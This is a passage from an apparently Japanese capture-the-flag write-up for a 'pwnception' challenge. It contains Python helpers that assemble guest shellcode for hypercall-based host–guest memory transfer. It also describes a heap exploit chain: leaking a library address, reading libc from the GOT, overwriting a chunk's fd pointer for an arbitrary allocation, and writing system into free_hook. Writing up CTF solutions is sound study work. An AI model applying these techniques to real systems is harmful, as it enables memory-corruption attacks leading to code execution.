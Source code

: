 ```python
        mov rdi, {}
        mov rsi, {}
        int 0x71
    '''.format(addr, length))

def h2g(addr, length): # from host to guset memory write
    return asm('''
        xor eax, eax
        inc eax
        inc eax
        mov rdi, {}
        mov rsi, {}
        int 0x71
    '''.format(addr, length))

def gout(addr, length): # guest output
    return asm('''
        mov rsi, {}
        mov cx, {}
        rep outsb 
    '''.format(addr, length))

def gin(addr, length): # guest input
    return asm('''
        mov rdi, {}
        mov cx, {}
        rep insb 
    '''.format(addr, length))

def free():
    return asm('''
        xor eax, eax
        inc eax
        inc eax
        inc eax
        int 0x71
    ''')
```

これで、例えばホストでリークした値は`h2g`でゲストメモリに持ってきて、`gout`で出力すれば良いことが分かります。入力は逆に、`gin`からの`g2h`で実現します。

またmallocについて、試してみると分かりますが、スレッドで動作するmallocであるため、main_arenaに紐付かずに動作します。要するにfreeしただけではlibcのアドレスが入手できません。  
代わりにheap上にはたくさんのポインタの跡があります。どうもunicornの何かの構造体が持っている関数ポインタの跡地のように見えます。  
何度か実行してみて、固定のオフセットを探してunicornのライブラリの位置を確定させます。  
ライブラリにはgotがあって、そこにはlibcのアドレスが記載されているので、それを拝借してきます。あとはfree_hookへsystemを入れて終了です。

任意アドレスallocはチャンクのfdを上書きするだけで済みます。隣接するチャンクを作って、一度目はunicornのgotを狙ってlibcリーク、二度目はfree_hookの上書きを行います。

![](/assets/pwnception/2020-12-09-21-46-56.png)
